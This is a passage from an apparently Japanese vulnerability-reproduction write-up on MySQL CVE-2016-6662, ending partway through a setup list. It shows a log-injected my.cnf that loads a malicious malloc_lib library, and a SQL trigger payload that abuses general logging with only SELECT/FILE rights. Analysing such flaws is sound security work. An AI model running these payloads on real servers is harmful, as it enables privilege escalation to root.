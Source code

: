 このオペレーションで作成されるmy.cnfはotherのrwが欠如しているため、mysqlはこのファイルをロードしようとします。

```
root@CVE-2016-6662:~# ls -l /var/lib/mysql/my.cnf
-rw-rw---- 1 mysql mysql 367  9月 13 19:02 /var/lib/mysql/my.cnf
root@CVE-2016-6662:~# cat /var/lib/mysql/my.cnf
/usr/sbin/mysqld, Version: 5.5.50-0+deb8u1 ((Debian)). started with:
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock
Time                 Id Command    Argument
160913 19:02:44    37 Query     select '

; injected config entry

[mysqld]
 malloc_lib=/var/lib/mysql/mysql_hookandroot_lib.so

 [separator]
'
160913 19:02:53    37 Query     set global general_log = off
```

しかしmy.cnfは有効なセクションヘッダーから開始されなければ、適切にロードされることはありません。さらなるテストでは、このセキュリティを回避することが可能であることを示します。 しかし、現在アドバイザリにはこれらの情報は含まれません。 CVE-2016-6663のCVEIDを割り当てられているアドバイザリでは、現在開示を保留していますが、FILE権限なしで任意のコンテンツを持つ/var/lib/mysql/my.cnfを作成します。


## 攻撃者はSELECT/FILE権限を持っている場合、logging functionへのアクセスを取得し、設定ファイルを作成することができる。

攻撃者は以下のようなクエリを実行することにより、SELECTとFILEのみのパーミッションしか保有していなくても、logging
functionを実行することができます。(通常これにはsuper権限が必要です)

```
SELECT "CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `active_table` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select \"
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'

\" INTO void;   
   set global general_log = off;
END;
" INTO DUMPFILE '/var/lib/mysql/wp_db/active_table.TRG'; 
```

アドバイザリのexploitから必要なコードを抜き出して、[access_logging_function.py](https://gist.github.com/KosukeShimofuji/68bb706aabfa2efc0dfafbfc3b007fde)を作成し、発生する現象というものを観察してみます。

 * MySQLの事前準備
